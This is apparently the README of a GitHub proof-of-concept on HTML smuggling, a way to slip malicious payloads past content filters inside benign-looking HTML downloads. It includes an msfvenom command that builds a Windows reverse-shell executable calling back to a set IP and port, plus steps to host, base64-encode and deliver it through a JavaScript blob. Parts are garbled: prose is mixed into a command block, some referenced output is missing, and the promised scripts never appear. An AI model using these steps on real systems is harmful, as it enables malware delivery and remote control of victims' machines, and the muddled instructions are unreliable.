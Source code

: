 ```yaml
---
title: HTML Smuggling
category: Defense Evasion
tags: [HTML Smuggling (T1027.006), Obfuscated Files or Information (T1027), Delivery]
---
```

# HTML-Smuggling
HTML Smuggling is an evasive payload delivery method that helps an attacker smuggle payload past content filters and firewalls by hiding malicious payloads inside of seemingly benign HTML files. This is possible by using JavaScript blobs and the HTML5 download attribute used with the anchor tag. This article demonstrates the methodology and two such readily available scripts that perform HTML smuggling.

 - MITRE TACTIC: Defense Evasion (TA0005)
 - MITRE Technique ID: Obfuscated Files or Information (T1027) 
 - MITRE SUB ID: HTML Smuggling (T1027.006)
 
Let’s start with the basics. In HTML5, if we want a user to download a file hosted on our server, we can do that by using the anchor tag.
```css
    <a href=”/payload.exe” download=”payload.exe”>Download Here</a>
```
For that, let’s first create a payload using msfvenom and copy it in our apache webroot directory.
```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.89 LPORT=1234 -f exe > payload.exe
```
```bash
    cp payload.exe /var/www/html
Then we copy this into the apache webroot and start the apache server

    cp index.html /var/www/html
    
    cd /var/www/html
    
    service apache2 start

```
But in order to supply this into our blob as a buffer, we need a single string with no enters. This fixing be done manually by copying this output in notepad and removing enters or you could follow our alternate approach by going to ***[base64.guru](https://base64.guru/)*** website.
Here, upload your payload and the converted base64 shall be given in a single line.

## GitHub Repoitory for POC

https://github.com/ashizZz/HTML-Smuggling